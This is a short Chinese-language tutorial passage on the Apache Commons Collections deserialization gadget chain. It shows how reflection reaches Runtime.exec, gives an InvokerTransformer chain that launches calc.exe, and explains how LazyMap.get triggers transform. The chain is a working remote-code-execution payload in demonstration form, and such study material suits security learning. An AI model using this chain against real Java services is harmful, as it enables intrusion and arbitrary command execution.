 #### 命令调用实现

由于Runtime类没有实现Serializable接口，无法被序列化，所以改用可以序列化的Class类对象Runtime.class，然后再通过反射去获取当前上下文中的Runtime对象：

```java
Method f = Runtime.class.getMethod("getRuntime");
```

getMethod函数原型

```java
public Method getMethod(String name, Class<?>... parameterTypes)
```

实现计算器执行：

```java
Transformer[] transformers = new Transformer[] {
    // 返回Runtime类
    new ConstantTransformer(Runtime.class),
    // 运行getRuntime方法
    new InvokerTransformer("getMethod", new Class[] {
    	String.class,
    	Class[].class }, new Object[] { "getRuntime",
    	new Class[0] }),
    // 运行invoke方法，静态方法参数为null
    new InvokerTransformer("invoke", new Class[] {
    	Object.class,
    	Object[].class }, new Object[] { null, new
    	Object[0] }),
    // 运行exec方法
    new InvokerTransformer("exec", new Class[] { String.class
    	},
    	new String[] { "calc.exe" }),
    new ConstantTransformer(1),
};
```

### LazyMap类

LazyMap是对标准数据结构Map做的修饰，在进行get操作时会调用transform函数

```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    
    // get方法调用transform方法
    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
}
```
